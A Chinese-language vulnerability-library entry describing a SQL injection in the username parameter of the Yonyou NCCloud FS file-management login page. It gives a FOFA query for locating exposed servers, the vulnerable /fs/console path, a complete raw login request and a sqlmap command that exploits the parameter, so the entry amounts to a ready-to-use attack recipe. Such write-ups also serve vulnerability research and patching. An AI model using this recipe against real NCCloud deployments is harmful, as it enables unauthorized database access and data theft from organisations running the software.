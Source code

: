 ```yaml
---
title: 用友 NCCloud FS文件管理SQL注入
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 用友OA
---
```


# 用友 NCCloud FS文件管理SQL注入

## 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

## 漏洞影响

> [!NOTE]
>
> 用友 NCCloud

## FOFA

> [!NOTE]
>
> "NCCloud"

## 漏洞描述

登录页面如下

![](/img/20210924013736508402.png)

在应用中存在文件服务器管理登录页面

```
http://xxx.xxx.xxx.xxx/fs/
```

![](/img/20210924013740371730.png)

登录请求包如下

```
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

使用Sqlmap对**username参数** 进行SQL注入

```
sqlmap -r sql.txt -p username 
```

![](/img/20210924013741665720.png)

